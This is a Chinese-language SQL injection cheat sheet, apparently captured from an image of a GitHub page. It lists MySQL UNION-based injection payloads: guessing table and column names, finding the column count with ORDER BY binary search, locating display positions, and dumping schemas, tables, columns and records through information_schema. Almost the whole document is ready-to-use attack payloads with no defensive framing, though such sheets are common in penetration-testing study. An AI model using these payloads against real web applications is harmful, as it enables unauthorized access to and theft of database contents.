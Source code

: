 ```
UNION ALL SELECT null,null,null #
ORDER BY

使用union注入：
（1）猜表名
exists(select * from tab_name)
存在返回1，不存在则报错ERROR 1146

（2）猜列数
union select 1,2,3

（3）猜列名
exists(select col_name from tab_name)
存在返回1，不存在则报错ERROR 1054

（4）猜字段
爆出显示位：
union select 1,2,3,4,5 from tab_name;
替换显示位：
union select 1,2,col_name,4,5 from tab_name;

利用二分法
ORDER BY 10 #
ORDER BY 5  #
ORDER BY 2  #
```

### 常用通用爆库数据

```
select(col_name)from(tab_name)where(length(passwd))=len                                             #猜长度
select group_concat(schema_name) from information_schema.schemata;                                  #MySQL >= 5.0
select distinct(db) from mysql.db                                                                   #需要特权

select (group_concat(table_name)) from information_schema.tables where table_schema=database();     #当前库所有表名
select (group_concat(column_name)) from information_schema.columns where (table_name=十六进制表名);  #一次爆出列名，十六进制表名要加0x，不用十六进制的时候，记得加单/双引号
select column_name from information_schema.columns where table_name=十六进制表名 limit 0,1;          #爆列名，一条条来
select 列名 from 表名;  
select right(group_concat(列名),30) from 数据库名.表名                                                                             #爆记录

备注：
报错的话，用mysql.tab_name的形式，查询数据表
```
